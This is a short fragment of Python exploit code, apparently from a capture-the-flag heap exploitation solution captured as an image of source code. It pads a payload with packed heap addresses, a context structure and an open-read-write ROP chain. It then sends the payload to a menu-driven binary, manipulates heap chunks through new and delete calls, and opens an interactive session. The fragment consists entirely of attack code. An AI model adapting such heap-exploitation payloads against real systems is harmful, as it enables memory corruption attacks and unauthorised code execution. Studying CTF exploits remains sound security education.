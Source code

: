 ```
payload = payload.ljust(0x78, b'\x00')+p64(0x21)+p64(heap+0x600)
payload = payload.ljust(0x100, b'\x00')+0x20*b'\x00'+p64(context) + \
    b'\x00'*(0xa0-0x28)+p64(heap+0x200)+p64(rdi)
payload = payload.ljust(0x200)+orw[8:]
p.sendline(payload)
p.sendlineafter('choice&gt;&gt; ','6')
# pause()
new(1, con=p64(0)+p64(heap+0x100)+p64(0)*2+p64(context), size=0x30)
new(3, con=p64(gadgets), size=0x30)
dlt(1)
p.interactive()
```
